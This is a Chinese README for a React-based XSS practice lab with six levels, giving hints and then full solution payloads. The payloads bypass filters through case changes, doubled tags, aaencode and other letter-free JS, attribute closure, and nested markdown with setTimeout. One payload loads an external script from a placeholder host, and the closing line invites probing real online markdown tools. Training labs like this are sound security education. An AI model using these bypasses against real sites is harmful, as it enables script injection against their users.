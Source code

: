 # 易锦 XSS 靶场

> 一个有意思的 XSS bypass 练习靶场，使用 React + Typescript 开发。



# 运行

1. 下载靶场源码，或者克隆到本地

2. 安装依赖

   ```bash
   npm  install
   ```

3. 运行靶场

   ```bash
   npm  start
   ```

4. 访问靶场

   默认是在[127.0.0.1:3000](127.0.0.1:3000)

5. 靶场使用

   在输入框中输入的内容经过 `parser` 函数处理之后渲染到一个 iframe 页面，这个 iframe 页面里的 `alert` 函数会被重写，调用 `alert` 之后就可以通关，通关后上方的关卡标题右边会出现”下一关“的按钮。

   







# 霉霉镇楼，不要偷看答案哦！

![](http://n.sinaimg.cn/ent/transform/20170506/zJy9-fyeyqek9981336.jpg)



















# 通关思路（无 payload）

先试试根据下面的提示进行尝试，试不出来再去看带 payload 的详解版本。

1. 第一关

   这一关是 XSS 入门，只要会前端的人都会，就不说了。

2. 第二关

   针对常见的引用资源的标签名做了过滤，不过只替换小写，因此可以大写绕过。

3. 第三关

   补上了大小写匹配，但是采用粗暴的替换方式，可以使用双写绕过。

4. 第四关

   使用了神挡杀神佛挡杀佛的全大写，HTML 平安无恙，不过其中的 JS 就无法执行了——但是 JS 的某些 Bug 是可以当作 Feature 来尝试的。

   没有头绪吗？搜索 [aaencode](https://www.baidu.com/baidu?tn=monline_4_dg&ie=utf-8&wd=aaencode+) 试试。

5. 第五关

   这一关属于是返璞归真了， XSS 漏洞很多时候是从属性带入的，只要会构造闭合就行了。

6. 第六关

   这一关可能确实有点难，不过仔细观察一下，图片和链接语法是先后解析的——这意味着如果把两个语句“套娃”的话，可能会产生奇效。











# 锦鲤提示：不要偷看答案哦！

![](https://gimg2.baidu.com/image_search/src=http%3A%2F%2Fn.sinaimg.cn%2Fent%2Ftransform%2F373%2Fw440h733%2F20200315%2Fa895-iquxrui6507919.jpg&refer=http%3A%2F%2Fn.sinaimg.cn&app=2002&size=f9999,10000&q=a80&n=0&g=0n&fmt=auto?sec=1670418517&t=ceb307d6cdbf247168485e170673708b)









# 答案仅供参考（带 payload ）

1. 第一关，简单、原始、暴力

   ```html
   <script>alert()</script>
   ```

2. 第二关

   > 几个能带入脚本的标签会被替换掉，但是没考虑大写，所以果断大小写绕过，当然这里也可以使用双写。

   ```html
   <SCRipt>alert('Hello world')</script>
   ```

3. 第三关

   > 这一关大小写都会被杀掉，所以首选双写绕过。

   ```html
   <i<imgmg src onerror=alert() />
   ```

   ```html
   <scr<scriptipt>alert('Hello world')</script>
   ```

   > 也可以使用点击事件通关。
   >
   > 当然，XSS 利用的第一原则：能自动触发的绝不考虑交互触发。

   ```html
   <a onclick="alert(1)">点我</a>
   ```

4. 第四关

   > 这一关它会把所有字母改成大写，*HTML* 还是可以带进去，但是 *JS* 带不进去了。
   >
   > 可以使用**不带字母**的方法通关（只有字母有大小写）。

   ```html
   <script>ﾟωﾟﾉ= /｀ｍ´）ﾉ ~[表情][表情][表情]   //*´[表情]｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+/*´[表情]｀*/(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟｰﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+((o^_^o) - (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+(ﾟｰﾟ)+(ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+(c^_^o)+(ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟoﾟ]) (ﾟΘﾟ)) ('_'); </script>
   ```

   > 或者也可使用如下 *alert payload*：

   ```html
   <img src onerror="_ =[] + ![] + !![];__=[]+[][0];$_=[]+{};_1=$_[5]+$_[1]+__[1]+_[3]+$_[6]+_[6]+__[0]+$_[5]+$_[6]+$_[1]+_[6];_2=_[1]+_[2]+_[4]+_[6]+$_[6];(0)[_1][_1](_2+'(1)')()" />
   ```

   > 除了上面这种奇怪的编码之外，还可以使用跨站脚本。
   >
   > 先把一个内容为`alert()`、名为 `ALERT.JS` 的脚本放到网站上：

   ```html
   <script src="//xxxx.xxxx.xxx/ALERT.JS"></script>
   ```

5. 第五关

   > 构造 **HTML** 属性闭合(使用引号闭合)。

   ```html
   " onerror="alert()
   ```

6. 第六关

   > markdown **图片**语法:
   >
   > ```markdown
   > ![图片的描述](图片的链接)
   > ```
   >
   > markdown **链接**语法：
   >
   > ```markdown
   > [链接的描述](链接的地址)
   > ```
   >
   > 有语法解析的地方，写点奇怪的东西，看能不能弄出解析结果错误。
   >
   > “*图片语法里面套娃套一个*链接语法”，造成 HTML 结构破坏，后面就可以 `onerror` 了，结合 `setTimeout` 特殊用法，绕开括号限制，拿下！
   >
   > ```markdown
   > ![[1](onerror=setTimeout`alert\x28\x29` )]()
   > ```

   > #### 题解思路
   >
   > `Markdown` 产出的内容**通常被直接渲染到网页上**，而不会经过框架的反 *XSS* 过滤，框架对此无能为力了。
   >
   > 1. 通过查看代码，我们发现对方把单双引号跟小于符号都过滤掉了
   >
   >    ![image-20220505222836959](https://pic-base.oss-cn-hangzhou.aliyuncs.com/img/image-20220505222836959.png)
   >
   >    所以常规的闭合思路不可取。
   >
   > 2. 但是，渲染标签的时候，对方给我们引入了梦寐以求的双引号
   >
   >    ```
   >    [1](2)
   >    ```
   >
   >    ![image-20220505223014862](https://pic-base.oss-cn-hangzhou.aliyuncs.com/img/image-20220505223014862.png)
   >
   > 3. 因此猜想把链接语法跟图片语法结合使用会有惊喜
   >
   >    ```
   >    ![[1](2)]()
   >    ```
   >
   >    ![image-20220505223418266](https://pic-base.oss-cn-hangzhou.aliyuncs.com/img/image-20220505223418266.png)
   >
   > 4. 尝试使用常规 payload，但是只有第一个括号，第二个被无意间干掉了，这是因为编辑器的语法解析的时候也需要圆括号，这个圆括号造成了干扰。
   >
   >    ```markdown
   >    ![[1](onerror=alert(1) )]()
   >    ```
   >
   >    ![image-20220505223835738](https://pic-base.oss-cn-hangzhou.aliyuncs.com/img/image-20220505223835738.png)
   >
   >    所以我们需要一种不引入圆括号的方法。
   >
   > 5. 结合 JS 的接口 `setTimeout` 可以**直接将后续的字符串变成代码**的奇葩特性，再加上十六进制编码`\x29 ==> )`，有突破口！
   >
   >    ```markdown
   >    ![[1](onerror=setTimeout`alert\x28\x29` )]()
   >    ```
   >
   > 
   >
   >    ![image-20220505224141164](https://pic-base.oss-cn-hangzhou.aliyuncs.com/img/image-20220505224141164.png)
   >
   > 

   另外一种 针对 markdown 的 payload （仅针对对方没有过滤双引号的场景，不适用于这个靶场）：

   ```html
   ![]("onerror=setTimeout`alert\x28\x29`)
   ```

   > 以后遇到在线的 markdown 写作工具的时候可以试着挖掘一下。
